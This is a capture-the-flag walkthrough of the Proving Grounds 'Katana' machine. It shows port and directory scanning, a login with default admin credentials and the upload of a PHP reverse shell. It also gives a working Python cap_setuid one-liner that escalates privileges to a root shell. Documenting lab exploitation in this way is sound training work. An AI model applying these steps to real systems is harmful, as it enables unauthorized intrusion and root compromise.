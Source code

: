 # Katana
**Date:** June 3rd 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>

![](images/katana0.png)

<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.94.83`

```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
8088/tcp open  http    LiteSpeed httpd
```

An additional all ports scan added the following:

```bash
7080/tcp open  ssl/empowerid LiteSpeed
8715/tcp open  http          nginx 1.14.2
```

<br>

### Gobuster Scan

`gobuster dir -u http://192.168.94.83 -t 100 -r -x php,txt,html -w dir-med.txt`

```bash
/index.html           (Status: 200) [Size: 655]
/ebook                (Status: 200) [Size: 3998]
```

Additional scan of **/ebook**:

```bash
/database             (Status: 200) [Size: 1181]
/index.php            (Status: 200) [Size: 3998]
/contact.php          (Status: 200) [Size: 4155]
/admin.php            (Status: 200) [Size: 3153]
/books.php            (Status: 200) [Size: 5164]
/info.php             (Status: 200) [Size: 94933]
/cart.php             (Status: 200) [Size: 2702]
/book.php             (Status: 200) [Size: 10]
/template             (Status: 200) [Size: 1166]
/purchase.php         (Status: 200) [Size: 2692]
/edit.php             (Status: 200) [Size: 16]
/checkout.php         (Status: 200) [Size: 2696]
/process.php          (Status: 200) [Size: 2016]
/models               (Status: 200) [Size: 2126]
/functions            (Status: 200) [Size: 1407]
/verify.php           (Status: 200) [Size: 69]
/bootstrap            (Status: 200) [Size: 1520] 
/controllers          (Status: 200) [Size: 982]
```

Another scan this time of **port 8088**:

```bash
/upload.html          (Status: 200) [Size: 6480]
/index.html           (Status: 200) [Size: 655]
/docs                 (Status: 200) [Size: 5472]
/protected            (Status: 401) [Size: 1242]
/blocked              (Status: 403) [Size: 1227]
/phpinfo.php          (Status: 200) [Size: 50735]
```


<br>

## Website Digging

Visiting the main page:

![](images/katana1.png)

Checking out **/ebook**:

![](images/katana2.png)

Opening up the **/database** link shows us a text file letting us know what the default admin credentials are as well as provides us with a file called **www_project.sql** which is a dump of the database.

![](images/katana3.png)

![](images/katana4.png)

Downloading the **www_project.sql** file allows us to open it up in a standard text editor. Not much useful in side other than the password hash for the admin user:

```sql
CREATE TABLE IF NOT EXISTS `admin` (
  `name` varchar(20) COLLATE latin1_general_ci NOT NULL,
  `pass` varchar(40) COLLATE latin1_general_ci NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=latin1 COLLATE=latin1_general_ci;

--
-- Dumping data for table `admin`
--

INSERT INTO `admin` (`name`, `pass`) VALUES
('admin', 'd033e22ae348aeb5660fc2140aec35850c4da997');
```

Instead of trying to crack the hash I check the default password first that we found in the text file a minute ago:

![](images/katana5.png)

![](images/katana6.png)

Alright now that we're signed in let's see what we can do.

I try and add a book and use a reverse php shell as the image, but it doesn't work. I try some other things to make this work by changing the file extension and even the magic number on the file but can't get it to work.

Let's look at the port 8088 version of the website. It had an **upload.html** so that sounds promising:

![](images/katana7.png)

I upload a reverse php shell:

![](images/katana8.png)

<br>

## System Access

If you read the message it says it's moved to the other web server under a file name of **katana_p.php**. I try and load it on the port 80 website and it doesn't work. I then try on the **port 8715** website and it does work!

![](images/katana9.png)

I upgrade my shell using python3 and start searching around the system.

<br>

## System Enumeration

`sudo -l` requires a password.

Searching for SUID and SGID with `find / -perm /6000 2>/dev/null` doesn't give us anything out of the ordinary.

<br>

## Root

I check to see if anything has **capabilities** that we can use and find we do:

`getcap -r / 2>/dev/null`

```bash
/usr/bin/python2.7 = cap_setuid+ep
```

Checking on [**GTFOBins**](https://gtfobins.github.io/gtfobins/python/#capabilities) shows us how to escalate our privileges to root:

![](images/katana10.png)

`python -c 'import os; os.setuid(0); os.system("/bin/sh")'`

```bash
www-data@katana:~$ python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# hostname
katana
```

Now to find our flags.

`find / -name local.txt 2>/dev/null`

```bash
/var/www/local.txt
```

`wc -c /var/www/local.txt`

```bash
33 /var/www/local.txt
```

`wc -c /root/proof.txt`

```bash
33 /root/proof.txt
```

<br>

With that we've completed this CTF!

![](images/katana11.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Manual enumeration of 3 different websites before finding an **upload form** that allowed us to upload a **php reverse shell** and establish an initial foothold on the system
- Finding that **python2.7** had the **cap_setuid+ep** capability set allowing us to escalate our privileges to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
